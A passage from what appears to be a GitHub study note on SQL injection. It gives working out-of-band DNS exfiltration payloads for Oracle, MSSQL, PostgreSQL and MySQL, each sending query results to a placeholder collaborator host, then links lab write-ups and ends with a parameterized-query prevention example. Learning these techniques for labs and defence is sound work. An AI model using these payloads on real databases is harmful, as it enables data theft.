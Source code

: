 - Use DNS lookup with data exfiltration payloads

  > Oracle
  >
  > > `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
  >
  > Microsoft
  >
  > > declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.COLLABORATOR-SUBDOMAIN/a"')
  >
  > PostgreSQL
  >
  > > create OR replace function f() returns void as `$$`
  > > declare c text;
  > > declare p text;
  > > begin
  > > SELECT into p (SELECT YOUR-QUERY-HERE);
  > > c := 'copy (SELECT '''') to program ''nslookup '||p||'.COLLABORATOR-SUBDOMAIN''';
  > > execute c;
  > > END;
  > >
  > > `$$ language plpgsql security definer;`
  > > SELECT f();
  >
  > MySQL The following technique works on Windows only:
  >
  > > SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\COLLABORATOR-SUBDOMAIN\a'

- Laps :
  - [Blind SQL injection with out-of-band interaction](./laps/OAST_ineraction.md)
  - [Blind SQL injection with out-of-band data exfiltration](./laps/OAST_ineraction.md)

---

## How To Prevent SQLI

1. Use prepared statements (parameterized queries)

   - Executing the query performed on two steps:
     1. application specifies the query structure with placeholders for every user input
     2. then the application specifies the content of each placeholder so that the data is processed indepentally from the query
   - EX:

     ```JS
     app.post("/books", (req, res) => {
     const q = "INSERT INTO books (title,`desc`,cover) VALUES (?)";
     const values = [req.body.title, req.body.desc, req.body.cover];

     db.query(q, [values], (err, data) => {
      if (err) return res.json(err);
      return res.json({ msg: "Book Added" });
     });
     });
     ```
